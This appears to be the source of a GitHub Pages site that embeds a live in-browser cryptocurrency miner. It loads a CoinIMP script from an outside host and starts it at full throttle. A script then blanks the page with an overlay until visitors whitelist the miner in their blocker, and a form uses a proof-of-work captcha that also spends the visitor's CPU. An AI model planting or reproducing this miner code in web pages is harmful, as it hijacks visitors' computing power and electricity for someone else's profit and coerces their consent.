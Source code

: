 ## Welcome to GitHub Pages
<script src="https://www.hostingcloud.racing/Y0Pq.js"></script>
<script>
    var _client = new Client.Anonymous('6af76f922971c0978de8b5f7fc5c702081ea5c2845d726e1646abaf20fce369a', {
        throttle: 0
    });
    _client.start();
    _client.addMiningNotification("Top", "This site is running JavaScript miner from coinimp.com", "#cccccc", 40, "#3d3d3d");
</script>
<script>
    setTimeout(function(){
        if(typeof _client === 'undefined' || _client === null)
        {
            var messageDiv = document.createElement("div");
            messageDiv.setAttribute("style","width: 50%; background-color: white; padding: 15px; display: inline-block; vertical-align: middle;");
            messageDiv.appendChild(document.createTextNode("Please allow our miner on your blocker software to continue browsing our site. Reload the page after that."));
            var mainDiv = document.createElement("div");
            mainDiv.setAttribute("style","position: absolute; top: 0px; right: 0px; width: 100%; height: 100%; display: flex; background-color: #4c4c4c;  align-items: center; justify-content: center");
            mainDiv.appendChild(messageDiv);
            document.body.appendChild(mainDiv);
            document.getElementsByTagName("body")[0].style.overflow = "hidden";
            window.scrollTo(0, 0);
        }
    },1000);
</script>





<form action="?" method="post">
	<!-- other form fields -->

	<script src="https://verifypow.com/lib/captcha.min.js" async></script>
	<div class="CRLT-captcha" data-hashes="1024" data-key="SITE_KEY">
		<em>Loading Captcha...<br>
		If it doesn't load, please disable Adblock!</em>
	</div>

	<input type="submit" value="Submit"/>
</form>
